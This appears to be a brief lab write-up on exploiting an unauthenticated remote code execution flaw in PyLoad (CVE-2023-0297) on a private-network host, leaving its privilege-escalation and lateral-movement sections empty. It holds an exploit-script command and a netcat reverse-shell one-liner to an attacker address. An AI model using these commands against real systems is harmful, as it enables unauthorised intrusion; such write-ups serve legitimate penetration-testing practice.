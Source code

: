 #Pwned! 
```IP
192.168.192.26
```
# Enumeration

## HTTP 9666
PyLoad
```py
CVE-2023-0297
```


# Exploitation
We test unauthenticated remote code execution with the following exploit
https://www.exploit-db.com/exploits/51532
```
python cve-2023-0297.py -u http://192.168.192.26:9666 -c 'ping -c 5 192.168.45.204'
```
Indeed we are able to execute commands
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205092835.png?raw=true)
```
python cve-2023-0297.py -u http://192.168.192.26:9666 -c 'busybox nc  192.168.45.204 4444 -e bash'
```
And we get a root shell inmediately
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205093214.png?raw=true)

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement


